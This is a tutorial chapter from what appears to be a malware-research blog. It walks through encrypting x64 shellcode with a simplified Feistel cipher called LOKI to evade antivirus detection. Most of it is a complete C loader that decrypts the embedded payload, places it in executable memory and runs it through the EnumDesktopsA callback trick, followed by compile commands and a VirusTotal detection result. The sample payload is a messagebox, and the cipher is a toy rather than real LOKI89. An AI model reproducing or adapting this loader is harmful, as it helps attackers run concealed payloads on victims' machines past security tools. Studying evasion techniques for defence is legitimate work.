



\newpage
\subsection{92. malware and cryptography research - part 1 (29): LOKI payload encryption. Simple C example.}

﷽

{width="80%"}     

This post is the result of my own research on try to evasion AV engines via encrypting payload with another logic: LOKI symmetric-key block cipher. As usual, exploring various crypto algorithms, I decided to check what would happen if we apply this to encrypt/decrypt the payload.    

### LOKI

Lawrie Brown, Josef Pieprzyk, and Jennifer Seberry, three Australian cryptographers, first published *LOKI (LOKI89)* in `1990` under the name *"LOKI"*. LOKI89 was submitted to the European RIPE project for review, but was not chosen. LOKI was presented as a potential alternative to DES.     

### practical example

Let's implement it. The LOKI algorithm uses a `64-bit` block and a `64-bit` key. The LOKI block encryption function encrypts  through multiple rounds of a Feistel structure. Below is a detailed step-by-step explanation of how this function works:    

```cpp
void loki_encrypt(u8 *block, u8 *key) {
  // LOKI encryption (simplified for demo)
  u32 left = ((u32)block[0] << 24) | 
  ((u32)block[1] << 16) | ((u32)block[2] << 8) | 
  (u32)block[3];
  u32 right = ((u32)block[4] << 24) | ((u32)block[5] << 16) | 
  ((u32)block[6] << 8) | (u32)block[7];

  for (int round = 0; round < ROUNDS; round++) {
    u32 temp = right;
    right = left ^ (right + ((u32)key[round % KEY_SIZE]));
    left = temp;
  }

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;
}
```

The `64-bit` block is divided into two `32-bit` halves: left and right:    

```cpp
u32 left = ((u32)block[0] << 24) | ((u32)block[1] << 16) | 
((u32)block[2] << 8) | (u32)block[3];
u32 right = ((u32)block[4] << 24) | ((u32)block[5] << 16) | 
((u32)block[6] << 8) | (u32)block[7];
```

The left half (`left`) is formed by concatenating the first four bytes of the block.     
The right half (`right`) is formed by concatenating the last four bytes of the block.     

The encryption process involves multiple rounds (`16 rounds` in my implementation):    

```cpp
for (int round = 0; round < ROUNDS; round++) {
  u32 temp = right;
  right = left ^ (right + ((u32)key[round % KEY_SIZE]));
  left = temp;
}
```

For each round:

- `temp` stores the current value of `right`.     
- `right` is updated with the result of `XOR` between `left` and the sum of `right` and a key value. The key value is chosen cyclically using `key[round % KEY_SIZE]`.     
- `left` is updated to the previous value of `right` stored in `temp`.     

Finally, reconstructing the encrypted block logic:    

```cpp
block[0] = (left >> 24) & 0xFF;
block[1] = (left >> 16) & 0xFF;
block[2] = (left >> 8) & 0xFF;
block[3] = left & 0xFF;
block[4] = (right >> 24) & 0xFF;
block[5] = (right >> 16) & 0xFF;
block[6] = (right >> 8) & 0xFF;
block[7] = right & 0xFF;
```

After completing all rounds, the `left` and `right` halves are merged back into the original block.    
The `32-bit` `left` and `right` values are split into bytes and stored back into the `block` array.    

In my example, this function provides a simplified view of the LOKI encryption process, focusing on the core operations of splitting, processing, and recombining the data.     

Also reimplement decrypting logic:     

```cpp
void loki_decrypt(u8 *block, u8 *key) {
  // LOKI decryption (simplified for demo)
  u32 left = ((u32)block[0] << 24) | ((u32)block[1] << 16) | 
  ((u32)block[2] << 8) | (u32)block[3];
  u32 right = ((u32)block[4] << 24) | ((u32)block[5] << 16) | 
  ((u32)block[6] << 8) | (u32)block[7];

  for (int round = ROUNDS - 1; round >= 0; round--) {
    u32 temp = left;
    left = right ^ (left + ((u32)key[round % KEY_SIZE]));
    right = temp;
  }

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;
}
```

Then we need the `loki_encrypt_shellcode` function to encrypt a given shellcode using the LOKI block cipher:     

```cpp
void loki_encrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    loki_encrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
    remaining);
    loki_encrypt(pad, key);
    memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
    remaining);
  }
}
```

How it works?    

Loop through shellcode in `8-byte` blocks:    

```cpp
for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
  loki_encrypt(shellcode + i * BLOCK_SIZE, key);
}
```

For each `8-byte` block, the `loki_encrypt` function is called with the current block and the encryption key. `shellcode + i * BLOCK_SIZE` computes the address of the current `8-byte` block in the shellcode.     

After processing all full `8-byte` blocks, the function checks if there are any remaining bytes that do not form a complete block.     

```cpp
int remaining = shellcode_len % BLOCK_SIZE;
if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = 
  {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
  memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
  remaining);
  loki_encrypt(pad, key);
  memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
  remaining);
}
```

Note that as usually, a padding array pad of `8 bytes` is initialized with `0x90` (`NOP` instruction in `x86` assembly).     

This function ensures that the entire shellcode, regardless of its length, is encrypted using the LOKI algorithm, with proper handling of any partial blocks.     

Then create decrypting logic:    

```cpp
void loki_decrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    loki_decrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
    remaining);
    loki_decrypt(pad, key);
    memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
    remaining);
  }
}
```

The final full source code for running payload is looks like this (`hack.c`):    

```cpp
/*
* hack.c
* encrypt/decrypt payload via LOKI
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/16/malware-cryptography-29.html
*/
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define ROUNDS 16
#define BLOCK_SIZE 8
#define KEY_SIZE 8

typedef uint32_t u32;
typedef uint8_t u8;

u8 key[KEY_SIZE] = {0x01, 0x23, 0x45, 0x67, 0x89, 0xAB, 0xCD, 0xEF};

void loki_encrypt(u8 *block, u8 *key) {
  // LOKI encryption (simplified for demo)
  u32 left = ((u32)block[0] << 24) | ((u32)block[1] << 16) | 
  ((u32)block[2] << 8) | (u32)block[3];
  u32 right = ((u32)block[4] << 24) | ((u32)block[5] << 16) | 
  ((u32)block[6] << 8) | (u32)block[7];

  for (int round = 0; round < ROUNDS; round++) {
    u32 temp = right;
    right = left ^ (right + ((u32)key[round % KEY_SIZE]));
    left = temp;
  }

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;
}

void loki_decrypt(u8 *block, u8 *key) {
  // LOKI decryption (simplified for demo)
  u32 left = ((u32)block[0] << 24) | ((u32)block[1] << 16) | 
  ((u32)block[2] << 8) | (u32)block[3];
  u32 right = ((u32)block[4] << 24) | ((u32)block[5] << 16) | 
  ((u32)block[6] << 8) | (u32)block[7];

  for (int round = ROUNDS - 1; round >= 0; round--) {
    u32 temp = left;
    left = right ^ (left + ((u32)key[round % KEY_SIZE]));
    right = temp;
  }

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;
}

void loki_encrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    loki_encrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
    remaining);
    loki_encrypt(pad, key);
    memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
    remaining);
  }
}

void loki_decrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    loki_decrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
    remaining);
    loki_decrypt(pad, key);
    memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
    remaining);
  }
}

int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (8 - my_payload_len % 8) % 8;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  loki_encrypt_shellcode(padded, pad_len);

  printf("encrypted shellcode: ");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  loki_decrypt_shellcode(padded, pad_len);

  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }

  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```

As you can see, for running payload I used [EnumDesktopsA](https://cocomelonc.github.io/malware/2024/06/12/malware-trick-39.html) trick.     

Also as usually, for simplicity, used meow-meow messagebox payload:     

```cpp
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";
```

For checking correctness, added comparing and printing logic.   

### demo

Let’s go to see everything in action. Compile it (in my `kali` machine):    

```bash
x86_64-w64-mingw32-gcc -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc
```

{width="80%"}      

Then, just run it in the victim's machine (`windows 11 x64` in my case):    

```powershell
.\hack.exe
```

{width="80%"}      

As you can see, everything is worked perfectly! =^..^=     

Calculate Shannon entropy:    

```bash
python3 entropy.py -f hack.exe
```

{width="80%"}      

Our payload in the `.text` section.    

Let's go to upload this `hack.exe` to VirusTotal:     

{width="80%"}      

[https://www.virustotal.com/gui/file/04bede4d03cd8f610fa90c4d41e1439e3adcd66069a378b9db4f94e62a7572cd/detection](https://www.virustotal.com/gui/file/04bede4d03cd8f610fa90c4d41e1439e3adcd66069a378b9db4f94e62a7572cd/detection)    

**As you can see, only 27 of 73 AV engines detect our file as malicious.**     

But this result is not due to the encryption of the payload, but to calls to some Windows APIs like `VirtualAlloc`, `RtlMoveMemory` and `EnumDesktopsA`      

Biham and Shamir successfully employed differential cryptanalysis to efficiently decrypt LOKI with `11` or fewer rounds, exceeding the speed of brute force methods.      

I hope this post is useful for malware researchers, C/C++ programmers, spreads awareness to the blue teamers of this interesting encrypting technique, and adds a weapon to the red teamers arsenal.      

[LOKI](https://en.wikipedia.org/wiki/LOKI)     
[Malware and cryptography 1](https://cocomelonc.github.io/malware/2023/08/13/malware-cryptography-1.html)      
[source code in github](https://github.com/cocomelonc/meow/tree/master/2024-07-16-malware-cryptography-29)    
